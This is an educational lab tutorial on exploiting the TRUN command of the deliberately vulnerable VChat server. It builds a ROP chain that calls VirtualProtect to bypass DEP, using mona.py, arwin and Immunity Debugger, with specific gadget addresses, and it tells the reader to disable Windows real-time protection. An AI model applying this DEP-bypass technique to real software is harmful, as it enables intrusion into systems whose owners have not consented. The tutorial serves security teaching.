# VChat TRUN Exploit: ROP Chain Exploitation
> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-trun-rop/) from fluid attacks.
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.
___

The manual creation of ROP Chains is a tedious and time-consuming endeavor, as was briefly discussed in the [Introduction To ROP](https://github.com/DaintyJet/VChat_ROP_INTRO) writeup. This is because you first have to locate suitable gadgets that can be used to setup the registers and stack to perform the attack, then you have to chain those gadgets together while being mindful of the conflicts or side-effects induced by each of the use of gadgets used earlier and later in the chain. The difficulty of creating ROP chains that work despite the interference that each gadget could cause has led to the creation of many tools for creating ROP chains on various architectures. In this exploit we will use the [mona.py](https://github.com/corelan/mona) tool in order to discover and generate ROP chains for VChat compiled for a x86 architecture, for more modern architectures there are additional state of the art [tools](https://www.syssec.wiwi.uni-due.de/fileadmin/fileupload/I-SYSSEC/research/RiscyROP.pdf) due to the complexity they induce.

> [!IMPORTANT]
> Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
## Pre-Exploitation
1. Open Immunity Debugger.

	

    * Note that you may need to launch it as the *Administrator* this is done by right-clicking the icon found in the Windows search bar or on the desktop as shown below:

	

2. Attach VChat: There are two options!
   1. When the VChat is already Running.
        1. Click File -> Attach.

			

		2. Select VChat.

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat.

			

        2. Click "Debug -> Run".

			

        3. Notice that a Terminal was opened when you clicked "Open". Now, you should see the program output from VChat.

			

3. Ensure that the execution in not paused, click the red arrow (Top Left).

	

## Exploitation

> [!IMPORTANT]
> The offsets and addresses shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.

### Exploitation Planning
Our goal of this exploit will be to use a ROP chain to disable the NX-Bit and the associated [DEP](https://github.com/DaintyJet/VChat_DEP) protections on a memory page of the executing program by calling the [`VirtualProtect(...)`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) function in order to modify the protections placed on a region of memory. In this case, we will aim to call the `VirtualProtect(...)` function on the region our stack resides in to allow the direct execution of the shellcode that has been injected onto the stack. An alternative method we could use leverages the `VirtualAlloc(...)` function to allocate space on an existing heap with the execution bit set, this would allow us to load shellcode into that location, once this is done we can then jump to and execute it.


The `VirtualProtect(...)` function has the following signature:
```c
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```
* `lpAddress`: This is the address of the of a memory page whose protections we would like to modify.
* `dwSize`: This is the size of the region we would like to modify the protections for.
* `flNewProtect`: This is the memory protection option we would like to set; this can be one of the [predefined constants](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants) and acts as a bit-mask.
   * `PAGE_EXECUTE`: Enable Execution Permissions on the specified page.
   * `PAGE_EXECUTE_READ`: Enable Execution and Read permissions on the specified page.
   * `PAGE_EXECUTE_READWRITE`: Enable Execution, Read, and Write permissions on the specified page.
   * `PAGE_EXECUTE_WRITECOPY`: Enable Execution and [Copy-On-Write](https://open-education-hub.github.io/operating-systems/Lab/Compute/copy-on-write/) permissions on the specified page.
   * `PAGE_NOACCESS`: Disable all access to the specified page.
   * `PAGE_READONLY`: Set the specified page to a read-only state. If DEP is enabled, attempts to execute code will result in an Access Violation Exception.
   * `PAGE_READWRITE`: Set the specified page to a read-only or read-write state. If DEP is enabled, attempts to execute code will result in an Access Violation Exception.
   * `PAGE_WRITECOPY`: Set the specified page to read-only or copy-on-write. If DEP is enabled, attempts to execute code will result in an Access Violation Exception.
   * `PAGE_TARGETS_INVALID`: Set all locations on the specified page to be invalid targets.
   * `PAGE_TARGETS_NO_UPDATE`: Se the page to not update their CFG information while the protections are updated. The example given is that if all locations are marked as invalid a permission modification using `VirtualProtect(...)` will not change this; the default behavior without this flag is to mark all locations as valid.
* `lpflOldProtect`: This is a pointer to a location where the old configuration for the protections of the specified page will be written.

Based on the signature of the `VirtualProtect()` function, there are a few arguments we need to set before calling it. The first is the address of the page region we would like to modify the protection of, followed by the region's size and then the permissions we would like to set. As we are not too concerned with the previous permissions of the region, we just need to set the `lpflOldProtect` value such that we do not overwrite the shellcode we have injected onto the stack.


We will need to set up the stack so that it has the following signature when making the function call. In this case, we will use gadgets to load these values in the correct order.

> [!IMPORTANT]
> The stack is drawn such that the lower addresses are located lower in the image; oftentimes, this stack could be oriented in the opposite direction when drawn.



### Manual Exploitation
1. First, we need to determine if the VChat process has the `VirtualProtect(...)` function loaded into its address space. If this is not within the Processes's address space you will need to use an alternative method or use another ROP chain to load the library containing the `VirtualProtect(...)` function before making a call to it!

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/a4e73d14-64ef-4015-aa39-25a7facd0a65

   1. Right click the CPU View menu and select *Search For* -> *All Intermodular calls*.

      

   2. You can click on the *Destination* tab at the top to make the sort order a little more manageable, and then we can search for a call to `VirtualProtect(...)`.

      

2. If `VirtualProtect(...)` is found we then need to determine the address this function is located at. We can do this directly in *Immunity Debugger* or with *Arwin*. Later we will need to reference the [Import Address Table](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#import-address-table) to determine it's address as it is part of those modules imported into our process.

   1. Immunity Debugger:

      https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/83965c2f-3f64-4ba9-83f6-35aafa335dd9

      1. From the previous intermodular search, copy the address of the call to `VirtualProtect(...)`.

            

      2. Using the black button (*Go to Address*), locate the call to `VirtualProtect(...)`.

            

      3. Right-click the address and select *Follow*.

            

   2. [Arwin](https://github.com/xinwenfu/arwin):

      https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/2237bfdc-0980-4958-adc9-a05a0681e8f1

      1. Open a command prompt.

            

      2. Run the following command.

            

         ```
         arwin kernel32 VirtualProtect
         ```
         * `arwin`: Run the arwin command/program.
         * `kernel32`: Load and search through the kernel32.dll.
         * `VirtualProtect`: Locate the Virtual Protect function.
3. Locate a RETN instruction address and pick one that does not have the (READONLY) flag set.
	```
	!mona find -type instr -s "retn" -p 45 -o
	```
	* `!mona`: Run mona.py commands.
	* `find`: Locate something withing the binary which has been loaded into Immunity debugger.
	* `-type`: Specify the type of the object string we are searching for.
		* `asc`: Search for an asci string.
		* `bin`: Search for a binary string.
		* `ptr`: Search for a pointer (memory address).
		* `instr`: Search for a instruction.
		* `file`: Search for a file.
	* `-s "<String>"`: Specify the string we are searching for.
	* `-p <number>`: Limit amount of output to the number we specify (May need to increase this to find instructions at an executable location).
	* `-o`: Omit OS modules.

   

      * In this case I would chose `0x6250129D`.
4. Locate a `JMP ESP` command with the following command; we will use this as the return address for the `VirtualProtect(...)` function.
   ```
   !mona jmp -n -r esp
   ```
   * `mona`: Run the mona module.
   * `jmp`: Search for jump registers that jump to a location stored in a register we specify.
   * `-n`: Ignore all modules that start with a null byte.
   * `-r esp`: Search for jumps that use the esp register as an address.

4. Modify the exploit program to reflect [exploit0.py](./SourceCode/exploit0.py), this contains placeholders we will fill in at runtime, later these placeholders will be replaced and handled by the ROP chain we have generated.

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/d448d4d0-e800-45be-b156-2e1dcbfc67c3

   1. Click on the black button highlighted below and enter the address we decided on in the previous step.

	   

   2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250129D`, the address of our `RETN` instruction.

	   

   3. Set a second breakpoint at the `JMP ESP` instruction as shown below, in this case I chose the instruction at the address `0x625014DD`.

   	

   3. Observe the stack before we have stepped into the `RETN` instruction.

		

      <!-- * *Note*: Unless you see the TRUN instruction in the EAX register (Sometimes the function we select the `RETN` instruction from is called in the base program). -->
      * *Notice*: The address we jump to will be the `VirtualProtect(...)` function when the `RETN` is executed, as this is at the top of the stack pointer to by the `EIP` register.
      <!-- * *Notice* The return address for the function has also been written. -->

   4. Observe the stack after we have stepped into the `RETN` instruction.

		

      * *Notice*: We have a call stack in the `VirtualProtect(...)` function, which can be seen in the stack view of Immunity Debugger. However, those values are meaningless, and we will need to modify them to test that we can successfully call into the `VirtualProtect(...)` function.

   6. Modify the value of the `lpAddress` argument (right-click the argument in the stack view [Bottom Right Window] and select "modify"). We can give it the value currently held in the `ESP` register, which is an address in the page containing our stack frame that we loaded the values in.

		

   7. Modify the value of the `dwSize` argument. This can be set to something reasonable, like 512 (0x200) or more.

      

   8. Modify the value of the `flNewProtect` to be `0x00000040`. This allows instructions located in this memory page region to be executed by the CPU.

      

   8. Modify the value of the `lpflOldProtect` to be a value "above" us on the stack in this case I chose `0x0131F9D0` as this will prevent us from overwriting our own shellcode if it were placed on the stack.

      

      * *Notice*: The address we chose was on the stack, this is because the stack has READ and WRITE permissions already, so if we were to leave the address we had there before which is located in the *.text* segment, if the code were to execute as is then the VChat server would crash after raising an exception; if it does recover it would later crash when it jumps back to the stack and attempts to execute instructions while DEP is still enabled.

   9. Step through the function for a short time to ensure that it works, once we are sure the function call has occurred correctly we can move onto the next step.

      

   10. Click run, we should next break at the `JMP ESP` breakpoint we set earlier.

      
### ROP Chain Generation and Exploitation

6. Now we can generate a ROP chain that will fill the stack with the appropriate values *Dynamically* such that the manual modification of stack values with a debugger is not needed. This will leverage the `PUSHAD` x86 assembly instruction. This single instruction is equivalent to the following set of assembly instructions and shows that it will push all of the General Purpose registers onto the stack.

   1. Examine the actions the `PUSHAD` instruction will take on execution.
   ```
   mov dword[esp -  4], eax
   mov dword[esp -  8], ecx
   mov dword[esp - 12], edx
   mov dword[esp - 16], ebx
   mov dword[esp - 20], esp
   mov dword[esp - 24], ebp
   mov dword[esp - 28], esi
   mov dword[esp - 32], edi
   sub esp, 32
   ```

